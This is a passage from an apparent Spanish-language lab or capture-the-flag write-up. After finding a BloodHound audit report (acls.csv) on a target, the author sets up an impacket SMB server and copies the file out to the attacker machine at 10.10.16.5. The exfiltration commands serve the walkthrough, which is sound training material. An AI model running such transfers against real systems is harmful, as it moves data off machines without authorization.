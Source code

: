 Investigando más sobre los directorios, nos encontramos un archivo (_acls.csv_) el cual parece ser un reporte de la auditoría realizada con BloodHound.

<figure><img src="../../../../../.gitbook/assets/3357_vmware_bw5xClElEz.png" alt=""><figcaption></figcaption></figure>

Para transferirnos este archivo a nuestro equipo local, procederemos a crear un servidor SMB y a compartir el archivo.

```bash
smbserver.py smbFolder $(pwd) -smb2support

copy acls.csv \\10.10.16.5\smbFolder\acls.csv
```

<figure><img src="../../../../../.gitbook/assets/3358_vmware_EskjlVw6Ge.png" alt=""><figcaption></figcaption></figure>

Revisaremos que disponemos del archivo en nuestro equipo local, procederemos a abrirlo para visualizar su contenido.

